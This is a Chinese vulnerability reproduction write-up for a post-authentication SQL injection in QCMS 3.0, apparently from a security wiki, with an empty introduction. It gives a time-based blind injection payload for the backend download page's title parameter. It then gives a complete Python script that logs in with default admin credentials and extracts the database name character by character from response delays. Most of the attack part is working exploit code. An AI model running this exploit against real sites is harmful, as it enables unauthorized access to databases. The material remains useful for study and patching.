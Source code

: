 QCMS 3.0 sql注入漏洞
====================

一、漏洞简介
------------

二、漏洞影响
------------

QCMS 3.0

三、复现过程
------------

在后台下载管理处

![](./.resource/QCMS3.0sql注入漏洞/media/rId24.png)

构造payload

    http://www.0-sec.org/backend/down.html?title=1';select if(ascii(substr((select database()), 1, 1))-113, 1, sleep(5));%23

这里直接附上简单脚本

    # !/usr/bin/python3
    # -*- coding:utf-8 -*-
    # author: Forthrglory
    import requests

    def getCookie():
        url = 'http://127.0.0.1/admin.php'
        data = {
            'username':'admin',
            'password':'admin'
        }

        session = requests.session()
        res = session.post(url, data)

        return requests.utils.dict_from_cookiejar(res.cookies)

    def getDatabase(url, arr, cookies):

        str = ''
        requests.session()

        for i in range(1, 11):
            for j in arr:
                data = url + '?title=1\';select if(ascii(substr((select database()), %s, 1))-%s, 1, sleep(5));%%23' % (i, ord(j))
                # print(data)
                res = requests.get(url=data, cookies=cookies)
                # print(res.elapsed.total_seconds())
                if(res.elapsed.total_seconds() > 5):
                    str += j
                    print(str)
                    break
        print('database=' + str)


    if __name__ == '__main__':
        url = 'http://127.0.0.1/backend/down.html'
        arr = []

        for i in range(48, 123):
            arr.append(chr(i))

        cookies = getCookie()
        print(cookies)
        getDatabase(url, arr, cookies)

参考链接
--------

> https://xz.aliyun.com/t/7269
